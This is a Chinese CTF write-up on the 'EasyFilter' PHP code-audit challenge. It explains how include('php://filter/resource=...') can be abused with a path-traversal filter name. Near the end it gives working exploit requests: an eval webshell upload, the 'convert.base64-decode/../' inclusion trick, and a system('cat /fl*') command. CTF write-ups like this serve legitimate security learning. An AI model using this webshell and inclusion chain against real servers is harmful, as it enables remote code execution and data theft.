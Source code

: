 # 前言

当时比赛没报名，借了个号上去瞅了一眼题目，看到这个PHP代码审计比较亲切就做了这一题，当时也是通过报错大胆尝试成功试了出来解法。

赛后花爷拿着我的wp去了p神的知识星球问了一下原理，P神给了个解答，但是自己还没有看过PHP的C代码所以很难理解（实际上都一年没有碰过C语言了）。恰好打算把最近的事情忙完就去学学PHP的底层，过了这么些天，昨天弄好了vscode调试PHP的C代码的环境，今天仔细研究了一下终于有点懂了，而且第一次看PHP的底层C，感觉学到了好多的东西。



# 做题时候写的WP



```php
<?php
    ini_set("open_basedir","./");
    if(!isset($_GET['action'])){
        highlight_file(__FILE__);
        die();
    }
    if($_GET['action'] == 'w'){
        @mkdir("./files/");
        $content = $_GET['c'];
        $file = bin2hex(random_bytes(5));
        file_put_contents("./files/".$file,base64_encode($content));
        echo "./files/".$file;
    }elseif($_GET['action'] == 'r'){
        $r = $_GET['r'];
        $file = "./files/".$r;
        include("php://filter/resource=$file");
    }
    
```

在最后一行代码那里正常包含文件`?action=r&r=d0165506bd`，发现有这些warning：

![image-20211023195300238](第四届强网拟态 EasyFilter.assets/image-20211023195300238.png)

发现这么一行很奇妙的warning：

```
Warning: include(): unable to locate filter "d0165506bd" in /var/www/html/index.php on line 16
```

传过去的不是文件名吗，怎么被当成过滤器了？？？

但是能成功包含出内容，所以这是又被当成过滤器又被当成文件了？那尝试路径穿越写马：

```
http://124.70.181.14:32766/?action=w&c=<?php eval($_POST[0]);?>



http://124.70.181.14:32766/?action=r&r=convert.base64-decode/../d0165506bd

0=system('cat /fl*');
```
